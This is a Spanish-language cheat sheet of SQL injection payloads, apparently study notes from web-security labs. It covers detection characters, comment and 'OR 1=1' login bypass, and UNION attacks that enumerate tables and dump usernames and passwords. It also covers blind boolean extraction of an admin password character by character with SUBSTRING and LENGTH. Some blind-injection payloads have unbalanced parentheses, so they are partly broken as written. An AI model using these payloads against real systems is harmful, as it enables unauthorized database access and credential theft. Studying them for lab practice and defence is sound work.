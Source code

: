 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT [columns] FROM [table_name]-- \
' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

    NOTA: importante definir la columna que sea formato string.

~: separador

ORACLE: || \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

MICROSOFT: + \
ex: 'string'+'string' 

POSTGRESQL: || \
ex: 'string'||'string' 

MySQL: [ ] "space" \
ex: 'string' 'string'

## BLIND SQL INJECTION

    NOTA: importante analizar el comportamiento del site. 

Validar la existencia de una tabla por medio de una consulta booleana, limitando el resultado para no romper la consulta.

' AND SELECT '[value]' FROM [table_name] LIMIT 1)='[value]'--

Una vez con el nombre de la tabla, se puede consultar fields especificos cambiando el query y agregando la funcion WHERE:

' AND SELECT [field] FROM [table_name] WHERE [field]='[value]')='[value]'--

_ENUMERAR EL TAMANO DE UN CAMPO ?

' AND SELECT [field_name] FROM [table_name] WHERE [field_name]='[value]' AND LENGTH(field_name)>1)='value'--
' AND SELECT username FROM users WHERE username='admin' AND LENGTH(password)>1)='admin'--

NOTA: es necesario iterar el numero de posicion hasta no tener expected responses, de esa manera se obtiene la cantidad de caracteres.

_COMO ENUMERAR EL CONTENIDO "STRING" DE UN CAMPO ?

--> funcion substring

el primer numero, por ejemplo, "4", es la posicion a iterar. el segundo numero es a una posicion.

Oracle:	SUBSTR('string', 4, 1) \
Microsoft:	SUBSTRING('string', 4, 1) \
PostgreSQL:	SUBSTRING('string', 4, 1) \
MySQL:	SUBSTRING('string', 4, 1)

' AND SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

    NOTA: Por ejemplo para iterar una posible contrasena se debe cambiar la posicion y el valor final a igual, en este caso el numero "1" y la
    letra "a".




